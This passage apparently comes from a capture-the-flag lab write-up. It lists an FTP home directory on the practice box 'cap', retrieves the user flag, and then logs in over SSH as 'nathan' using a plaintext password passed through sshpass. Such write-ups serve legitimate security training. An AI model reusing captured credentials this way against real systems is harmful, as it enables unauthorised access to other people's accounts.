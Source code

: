 
`dir` shows only one file I can access:



    ftp> dir
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    -rw-------    1 1001     1001           33 May 15 21:40 user.txt
    226 Directory send OK



`ls -la` actually shows the FTP root is in what looks like a home
directory:



    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
    drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
    lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
    -rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
    -rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
    drwx------    2 1001     1001         4096 May 23 19:17 .cache
    -rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
    lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
    -r--------    1 1001     1001           33 Oct 02 07:24 user.txt
    226 Directory send OK.



I can grab `user.txt`, completing the user half of the box:



    ftp> get user.txt
    local: user.txt remote: user.txt
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for user.txt (33 bytes).
    226 Transfer complete.
    33 bytes received in 0.00 secs (13.8848 kB/s)
    ftp> 
    221 Goodbye.
    oxdf@parrot$ cat user.txt
    b610b8fa************************



### SSH

The same password works for SSH as nathan as well:



    oxdf@parrot$ sshpass -p 'Buck3tH4TF0RM3!' ssh nathan@10.10.10.245
    ...[snip]...
    nathan@cap:~$
